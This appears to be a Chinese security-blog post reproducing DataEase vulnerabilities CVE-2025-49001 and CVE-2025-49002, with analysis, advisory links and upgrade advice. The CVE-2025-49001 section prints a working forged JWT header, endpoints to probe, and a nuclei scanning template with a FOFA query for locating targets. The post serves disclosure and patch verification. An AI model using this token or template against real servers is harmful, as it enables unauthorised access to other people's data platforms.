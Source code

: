 #  【漏洞复现】Dataease JWT 认证绕过漏洞/远程代码执行（CVE-2025-49001/CVE-2025-49002）  
稻草人  玄武盾网络技术实验室   2025-06-18 01:21  
  
免责声明：本文仅供安全研究与学习之用，严禁用于非法用途，违者后果自负。  
##   
## 漏洞介绍  
  
DataEase 是一款开源的数据分析平台，提供丰富的数据可视化和分析功能，帮助用户轻松地进行数据探索和决策支持，CVE-2025-49001 是由于JWT校验机制错误导致攻击者可伪造JWT令牌绕过身份验证流程，CVE-2025-49002 是由于H2数据库模块没有严格过滤用户输入的JDBC连接参数，可使用大小写绕过补丁。攻击者可利用这些漏洞实现未授权代码执行，威胁用户数据和系统的安全。  
## 影响版本  
  
DataEase <= 2.10.8  
## 漏洞复现  
  
CVE-2025-49001   
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJKRsJ9YvJySbUjAYkdlh4U6WKf8Acc3ytA5FcBYFCXJhTVNcuqOKVUOX7lGjbnCTOp7TDOFd3o3Qw/640?wx_fmt=png&from=appmsg "")  
  
POC:  
  
(这微信页面直接复制代码格式会乱，可以浏览器打开复制)  
```
X-DE-TOKEN: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1aWQiOjEsIm9pZCI6MX0.a5QYOfZDYlhAy-zUMYzKBBvCUs1ogZhjwKV5SBTECt8
```  
  
  
可以通过请求以下接口进行验证，无漏洞则会返回500或401  
```
/de2api/license/version
/de2api/user/info
/de2api/login/refresh
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJKRsJ9YvJySbUjAYkdlh4U62bolhTaMuzCelQg0aHQmoSwL62qoIIjb5wBx6jIkbYyeDbeXfl44eA/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJKRsJ9YvJySbUjAYkdlh4U6uwicLKZEXzruTicDicrTc9iaEtwia0x9Gl02pCPNUuDLXIAxdK5zINdI5Ag/640?wx_fmt=png&from=appmsg "")  
##   
## 漏洞分析  
  
CVE-2025-49001   
  
通过 JWT 解密了 token，获取了 uid 和 oid 的值，并没有使用当前秘钥来验证 token 的合法性，可以使用任意secret来伪造一个符合以下格式的JWT token  
```
{
  "uid": 1,
  "oid": 1
}
```  
  
  
具体分析见原文  
```
https://github.com/dataease/dataease/security/advisories/GHSA-xx2m-gmwg-mf3r
```  
  
  
CVE-2025-49002  
```
https://github.com/dataease/dataease/security/advisories/GHSA-999m-jv2p-5h34
```  
  
## nuclei脚本  
```
id: dataease-cve-2025-49001

info:
  name: dataease-cve-2025-49001-bypass
  author: PokerSec
  severity: high
  metadata:
    fofa-search: title="DataEase"

requests:
  - raw:
      - |-
        GET /de2api/user/info HTTP/1.1
        Host: {{Hostname}}
        Accept: application/json, text/plain, */*
        out_auth_platform: default
        X-DE-TOKEN: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1aWQiOjEsIm9pZCI6MX0.a5QYOfZDYlhAy-zUMYzKBBvCUs1ogZhjwKV5SBTECt8

    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - '"id":"1"'
          - 'oid'
          - 'name'
        condition: and
      - type: status
        status:
          - 200
```  
##   
## 修复意见  
  
更新至最新安全版本，目前官方已有可更新版本DataEase >= 2.10.10  
  
官方补丁下载地址：  
  
https://github.com/dataease/dataease/releases/tag/v2.10.10  
  
https://dataease.io/  
  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/UM0M1icqlo0knIjq7rj7rsX0r4Rf2CDQylx0IjMfpPM93icE9AGx28bqwDRau5EkcWpK6WBAG5zGDS41wkfcvJiaA/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
声明：  
技术文章均收集于互联网，仅作为本人学习、记录使用。  
侵权删  
！  
！  
！  
  
  
  
